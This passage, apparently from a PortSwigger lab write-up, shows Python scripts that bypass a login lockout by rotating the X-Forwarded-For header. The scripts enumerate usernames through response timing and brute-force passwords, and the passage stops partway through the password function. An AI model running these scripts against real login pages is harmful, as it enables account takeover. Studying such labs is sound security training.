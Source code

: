 ![](../../.gitbook/assets/portswigger-auth-writeup-image-12.png)

This can be bypassed using the `X-Forwarded-For` header. Using this, I can create a script to enter a really long password, and check the response time. If I get blocked, I can just modify the `X-Forwarded-For` header to bypass the IP ban. 

I used a really long password to get a very long response time. Here's the `find_user` function:

```python
def find_user():
	users = open('users.txt','r')
	num = 1

	for i in users:
		trial = i.rstrip('\n')
		headers = {
	 		'X-Forwarded-For':f'192.168.0.{str(num)}'
		}
		login_data = {
			'username': trial,
			'password': long_password
		}
		r = s.post(url + '/login', proxies=proxies, data=login_data, cookies=cookies, verify=False, headers=headers)

		if 'You have made too many incorrect' in r.text:
			num += 1
			headers = {
	 			'X-Forwarded-For':f'192.168.0.{str(num)}'
			}
			## resend rq
			r = s.post(url + '/login', proxies=proxies, data=login_data, cookies=cookies, verify=False, headers=headers)		

		if r.elapsed.total_seconds() > 3:
			print(f'[+] Found user: {trial}')
			return trial
```

This would find the usename `affiliate`. From here, the `find_password` function is similar. Note that this uses `192.168.2.0/24` now.

```python
def find_password(user):
	passwords = open('pass.txt','r')
	num = 1
	for i in passwords:
		trial = i.rstrip('\n')
		headers = {
	 		'X-Forwarded-For':f'192.168.0.{str(num)}'
		}
		login_data = {
			'username':user,
			'password':trial
		}
		r = s.post(url + '/login', proxies=proxies, data=login_data, cookies=cookies, verify=False, headers=headers)

		if 'You have made too many incorrect' in r.text:
```